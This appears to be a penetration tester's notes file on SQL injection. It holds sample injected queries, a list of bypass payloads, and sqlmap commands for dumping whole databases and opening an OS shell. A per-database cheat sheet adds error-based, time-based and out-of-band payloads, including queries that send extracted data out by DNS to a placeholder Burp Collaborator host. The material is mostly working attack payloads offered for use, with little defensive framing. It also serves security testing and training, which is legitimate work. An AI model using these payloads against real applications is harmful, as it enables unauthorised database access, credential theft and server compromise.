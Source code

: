 # SQL Injection 
A SQL injection is an attack in which the attacker executes arbitrary SQL
commands on an application’s database by supplying malicious input inserted into a SQL statement.

# Injecting Code into SQL Queries
A SQL injection attack occurs when an attacker is able to inject code into the
SQL statements that the target web application uses to access its database,
thereby executing whatever SQL code the attacker wishes.

# Sample Queries
SELECT id FROM users WHERE username='admin';-- ' AND Password='password123';
The -- sequence denotes the start of a SQL comment, which doesn’t get interpreted as code, 
so by adding -- into the username part of the query, the attacker effectively comments out the rest of the SQL query. 
The query becomes this: SELECT id FROM users WHERE username='admin';


    SELECT title, body FROM emails 
    WHERE username='vickie' 
    AND accesskey='ZB6w0YLjzvAVmp6zvr'
    UNION SELECT 1,
    CONVERT((SELECT password FROM users WHERE username="admin"), DATE);--

    ' or sleep(15) and 1=1#
    ' or sleep(15)#
    ' union select sleep(15),null#

Meta Characters

    '
    ''
    ;%00
    --
    -- -
    ""
    ;
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    ' OR '' = '
    OR 1=1

# Reports 
[Orange's SQL Injection on Uber](https://hackerone.com/reports/150156/)

# SQLMap 
1 Saved burp req
2 sqlmap -r 
-r = path to saved req
-p = parameter to test for 

> sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump-all

If you’re not interested in dumping the entire database, you could use
the --dump command to specify the exact table and columns you would like:
> sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump -T users -C password -D helpdesk

Sometimes SQL injection vulnerabilities will allow you to upload a web
shell to the server that can then be executed to obtain system access. You
could use one of SQLmap’s commands to automatically attempt to upload a
web shell and execute the shell to grant you with system access:
> sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-shell


# SQL injection cheat sheet

## String concatenation
====================
Oracle 	        'foo'||'bar'
Microsoft 	    'foo'+'bar'
PostgreSQL 	    'foo'||'bar' and 'foo' 'bar' [Note the space between the two strings]
MySQL 	        CONCAT('foo','bar')


## Substring
====================
Each of the following expressions will return the string ba.
Oracle 	SUBSTR('foobar', 4, 2)
Microsoft, PostgreSQL, MySQL 	SUBSTRING('foobar', 4, 2)

## Comments
====================
Oracle     	--comment
Microsoft	--comment or /*comment*/
PostgreSQL 	--comment or /*comment*/ or  #comment
MySQL 	    -- comment [Note the space after the double dash] or /*comment*/

## Database version
====================
Oracle 	    SELECT banner FROM v$version or SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	    SELECT @@version

## Database contents
====================
You can list the tables that exist in the database, and the columns that those tables contain.
Oracle 	        SELECT * FROM all_tables or SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft, PostgreSQL, MySQL 	    
SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'


## Conditional errors
====================
You can test a single boolean condition and trigger a database error if the condition is true.
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.
Microsoft 	SELECT 'foo' WHERE 1 = (SELECT 'secret')
> Conversion failed when converting the varchar value 'secret' to data type int.
PostgreSQL 	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
> invalid input syntax for integer: "secret"
MySQL 	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
> XPATH syntax error: '\secret'
Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle 	Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
QUERY-1-HERE QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	QUERY-1-HERE; QUERY-2-HERE
Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	SELECT SLEEP(10)
Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
Oracle 	

(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft 	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL 	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL 	

The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
Oracle 	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'